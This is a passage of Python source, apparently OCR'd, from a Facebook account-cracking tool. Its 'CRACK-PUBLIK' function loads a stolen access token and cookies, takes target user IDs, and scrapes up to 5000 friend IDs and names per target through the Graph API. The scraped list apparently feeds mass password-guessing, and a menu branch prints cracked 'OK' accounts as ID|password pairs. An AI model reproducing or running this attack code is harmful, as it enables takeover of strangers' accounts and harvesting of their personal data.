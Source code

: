                 print(f'\033[97;1m[\x1b[38;5;50m•\033[97;1m] OK : \033[32m {CPkuni[0]}|{CPkuni[1]}\033[0m')
                noCP +=1
            print('\x1b[38;5;50m==================')
            input('\033[97;1m[\x1b[38;5;50m•\033[97;1m] PRESS ENTER TO BACK ')
            back()
    elif kz in ['0','00']:
        back()
    else:
        print('\x1b[38;5;50m==================')
        animation(' \033[97;1m[\x1b[38;5;50m•\033[97;1m] NO OPTION FOUND IN MENU')
        exit()
 
#-------------------[ CRACK-PUBLIK ]----------------#
 
def dump_massal():
    try:
        token = open('.token.txt','r').read()
        cok = open('.cok.txt','r').read()
    except IOError:
        exit()
    try:
        print('\x1b[38;5;50m==================')
        jum = int(input(' \033[97;1m[\x1b[38;5;50m•\033[97;1m] ENTER TARGET AMOUNT  : '))
        print('\x1b[38;5;50m==================')
    except ValueError:
        print('\x1b[38;5;50m==================')
        animation(' [×] INVALID OPTION ')
        exit()
    if jum<1 or jum>100000000:
        print('\x1b[38;5;50m==================')
        animation(' [×] TRY AGAIN ')
        exit()
    ses=requests.Session()
    yz = 0
    for met in range(jum):
        yz+=1
        kl = input(' \033[97;1m[\x1b[38;5;50m•\033[97;1m] INPUT UID '+str(yz)+' : ')
        uid.append(kl)
    for userr in uid:
        try:
            col = ses.get('https://graph.facebook.com/v2.0/'+userr+'?fields=friends.limit(5000)&access_token='+tokenku[0], cookies = {'cookies':cok}).json()
            for mi in col['friends']['data']:
                try:
                    iso = (mi['id']+'|'+mi['name'])
                    if iso in id:pass
                    else:id.append(iso)
                except:continue
        except (KeyError,IOError):
            pass
        except requests.exceptions.ConnectionError:
            print('\x1b[38;5;50m==================')
            animation(' [×] TRY AGAIN ')
            os.system('clear')
    try:
        print('\x1b[38;5;50m==================')
        print(f' \033[97;1m[\x1b[38;5;50m•\033[97;1m] TOTAL ID : \u001b[36m'+str(len(id))+'\033[1;37m')
        setting()
    except requests.exceptions.ConnectionError:
        print(f'{u}')
        back()
    except (KeyError,IOError):
        print('\x1b[38;5;50m==================')
        animation(" [×] DUMP ID FAILED ")